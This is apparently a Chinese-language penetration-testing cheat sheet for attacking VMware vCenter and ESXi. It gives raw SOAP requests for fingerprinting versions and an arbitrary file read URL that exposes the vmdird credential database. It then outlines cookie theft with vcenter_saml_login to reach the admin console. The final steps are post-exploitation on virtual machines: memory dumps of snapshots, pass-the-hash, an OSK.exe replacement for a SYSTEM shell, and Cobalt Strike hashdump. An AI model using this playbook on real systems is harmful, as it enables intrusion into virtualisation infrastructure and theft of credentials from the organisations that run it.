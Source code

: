 ### 0x01-VMware vCenter查看版本
```
text
POST /sdk HTTP/2
Host: 172.18.2.62
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cache-Control: no-cache
Pragma: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 335
Te: trailers
Connection: close

<env:Envelope xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:env="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<env:Body>
<RetrieveServiceContent xmlns="urn:vim25">
<_this type="ServiceInstance">ServiceInstance</_this>
</RetrieveServiceContent>
</env:Body>
</env:Envelope>
```

### 0x02-VMware ESXi查看版本
```
text
POST /sdk HTTP/1.1
Host: 10.10.15.4
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cache-Control: no-cache
Pragma: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 335
Te: trailers
Connection: close

<env:Envelope xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:env="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<env:Body>
<RetrieveServiceContent xmlns="urn:vim25">
<_this type="ServiceInstance">ServiceInstance</_this>
</RetrieveServiceContent>
</env:Body>
</env:Envelope>
```

### 0x03-任意文件读取到登录后台
```
text
Linux
/storage/db/vmware-vmdir/data.mdb

Windows
C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb

例子
https://10.8.12.170/eam/vib?id=C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb

通过vcenter_saml_login提取cookie

替换cookie登录后台
```

### 0x04-漏洞利用到登录后台
```
text
漏洞利用拿到shell

通过vcenter_saml_login提取cookie

替换cookie登录后台
```

### 0x05-登录后台到拿下虚拟机
```
text
可通过vcenter的快照功能获取虚拟机的快照，然后通过内存取证的姿势dump凭证，pth；

也可传到本地，再恢复成虚拟机，然后通过PE，重命名CMD.EXE为OSK.exe覆盖原OSK.exe，此时
开机打开屏幕键盘会弹出SYSTEM权限的命令行窗口，本地上线cs然后hashdump抓取凭证，pth即
可。（by banliz1）
```

### 参考链接
https://github.com/pen4uin/pentest-note/blob/main/README.md#内网-vsphere--vcenter的后利用姿势  
https://github.com/horizon3ai/vcenter_saml_login](https://github.com/horizon3ai/vcenter_saml_login  